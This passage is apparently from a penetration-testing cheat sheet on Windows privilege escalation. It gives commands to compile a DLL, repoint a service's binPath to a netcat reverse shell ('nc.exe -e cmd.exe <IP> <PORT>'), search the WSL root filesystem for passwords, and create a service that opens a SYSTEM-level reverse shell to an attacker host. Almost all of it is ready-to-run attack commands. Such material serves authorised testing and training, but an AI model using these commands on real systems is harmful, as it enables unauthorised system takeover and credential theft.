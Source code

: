 #### Compiling the DLL

```text
#x64
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#x86
i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

### Modifying the service

```text
sc stop <service>
sc config <service> binPath="C:\Temp\nc.exe -e cmd.exe <IP> <PORT>"
sc qc <service> #Check correct assigment 
sc start <service>
```

## WSL \(Windows Subsystem for Linux\)

Windows Subsystem for Linux is a compatibility layer for running Linux binary executables natively on Windows 10 and Windows Server 2019.

Location:

```text
C:\Windows\System32\wsl.exe
```

Executing `wsl.exe` we can get a subsystem shell \(Linux\) or we can search the subsystem fileroot on the windows machine.

```text
C:\Users\User\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\
```

Inside the Linux filesystem as root, you can search for passwords or some other interesting things.

## From Administrator to System

As it is known the maximum privilege account of windows systems is `NT AUTHORITY\SYSTEM`  , so we need to spawn a shell with that account.

Once our user is already on `Administrators` group, we can check it with different forms:

```text
net user admin
net sessions   #only can execute local administrators
```

There are different forms to spawn a system shell, but I will explain one, creating a service.

```text
sc create <service_name> binpath= "C:\Users\User\nc.exe <ip-addr> <port> -e cmd.exe" type= own type= interact
```
